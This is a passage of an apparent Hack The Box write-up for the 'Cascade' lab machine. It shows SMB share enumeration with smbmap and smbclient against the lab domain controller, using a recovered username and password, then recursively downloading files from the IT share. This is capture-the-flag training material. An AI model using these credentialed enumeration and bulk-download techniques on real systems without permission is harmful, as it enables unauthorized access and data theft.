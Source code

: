 ```text
zweilos@kalimaa:~/htb/cascade$ smbmap -H 10.10.10.182 -u r.thompson -p rY4n5eva
[+] IP: 10.10.10.182:445        Name: Casc-DC1                                          
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Audit$                                                  NO ACCESS
        C$                                                      NO ACCESS       Default share
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        print$                                                  READ ONLY       Printer Drivers
        SYSVOL                                                  READ ONLY       Logon server share
```

This user was only able to access **Data**, **NETLOGON**, **print$**, and **SYSVOL**.  

#### smbclient

I checked **SYSVOL** first since it can sometimes contain passwords, but neither it nor **NETLOGON** had anything interesting.  The **print$** admin share only contained a bunch of printer drivers, and I didn't want to jump down the rabbit hole of looking for exploits there until I had exhausted all other avenues of enumeration.

```text
zweilos@kalimaa:~/htb/cascade$ smbclient -U r.thompson -W Cascade \\\\10.10.10.182\\data rY4n5eva
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jan 26 22:27:34 2020
  ..                                  D        0  Sun Jan 26 22:27:34 2020
  Contractors                         D        0  Sun Jan 12 20:45:11 2020
  Finance                             D        0  Sun Jan 12 20:45:06 2020
  IT                                  D        0  Tue Jan 28 13:04:51 2020
  Production                          D        0  Sun Jan 12 20:45:18 2020
  Temps                               D        0  Sun Jan 12 20:45:15 2020

                13106687 blocks of size 4096. 7794950 blocks available
```

## Road to User

After connecting to the Data share, I found folders corresponding to each of the business unit security groups I had seen earlier. Since `r.thompson` is a member of the `IT` group I figured that was probably what he had access to.  \(I did check the other folders; no access\).

```text
smb: \> ls IT\
  .                                   D        0  Tue Jan 28 13:04:51 2020
  ..                                  D        0  Tue Jan 28 13:04:51 2020
  Email Archives                      D        0  Tue Jan 28 13:00:30 2020
  LogonAudit                          D        0  Tue Jan 28 13:04:40 2020
  Logs                                D        0  Tue Jan 28 19:53:04 2020
  Temp                                D        0  Tue Jan 28 17:06:59 2020

                13106687 blocks of size 4096. 7795046 blocks available
smb: \> tarmode
tar:311  tarmode is now full, system, hidden, noreset, quiet
smb: \> recurse
smb: \> prompt
smb: \> mget *
getting file \IT\Email Archives\Meeting_Notes_June_2018.html of size 2522 as Meeting_Notes_June_2018.html (10.7 KiloBytes/sec) (average 10.7 KiloBytes/sec)
getting file \IT\Logs\Ark AD Recycle Bin\ArkAdRecycleBin.log of size 1303 as ArkAdRecycleBin.log (6.9 KiloBytes/sec) (average 9.0 KiloBytes/sec)
getting file \IT\Logs\DCs\dcdiag.log of size 5967 as dcdiag.log (28.3 KiloBytes/sec) (average 15.4 KiloBytes/sec)
```